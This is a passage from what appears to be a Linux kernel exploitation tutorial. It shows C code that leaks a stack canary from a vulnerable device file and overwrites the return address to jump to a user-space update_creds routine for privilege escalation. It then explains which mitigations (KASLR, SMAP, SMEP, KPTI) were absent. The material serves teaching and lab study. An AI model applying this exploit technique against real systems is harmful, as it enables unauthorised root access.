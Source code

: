 ```c

int main(void){
        unsigned int size = 5;
        unsigned int overflow_size = 8;

        uint64_t leak[size];

        save_registers(); //save the users-space registers before diving into thre Kernel;

        int fd = open(FILE, O_RDWR);
        if (fd < 0){ printf("Open Error: %s\n", FILE); _exit(-1); }

        int r = read(fd, leak, sizeof(leak));


        stack_cookie = (long) leak[0x3];

        fprintf(stdout, "[+] StackCookie: %p\n", stack_cookie);

        uint64_t overflow[overflow_size]; //8 * 8 = 64 bytez
                                          

        overflow[0x4] = stack_cookie;

        overflow[0x5] = 0x4242424242424242; //rbp
        overflow[0x6] = (unsigned long) update_creds; //ret

        int w = write(fd, overflow, sizeof(overflow));

        fprintf(stdout, "[+] Wrote %d bytez\n", w);
        return 0;
}
```

The modified assembly code in the *update_creds* function added the `swapgs` instruction that is used to swap the `GS` registers betwen the Kernel and UserSpace. The saved registers were also pushed on the stack; in the order required before the execution of `iretq`. 


The above exploit worked because the following mitigations were not implemented: 

 - `KASLR` : This is the same as the UserLand ASLR, and if this was implemented it would have randomized the address of `commit_creds` and `prepare_kernel_creds`.

 - `SMAP`: Supervisor Mode Access Prevention is a protection that makes the user-space inaccessible no (RWX), if this was implemented we could not have access to the code stored in `update_creds`. In the Kernel this is enabled by setting the 20th bit of the Control Registers `CR4`. It can be bypassed by unsetting ths value, but due to additional mitigations this will not work.

 - `SMEP`: SuperVisor Mode Execution Prevention is an protection that makes the UserSpace non-executable and this is used together with SMAP. This is enabled by setting the 21st bit of the Control Register `CR4`.

 - `KPTI`: Kernel Page Table Isolation is a mitigation that is used to separate the Kernel and the User Space  page table instead of using just one set of page tables that contain both user-space and kernel-space addresses. 
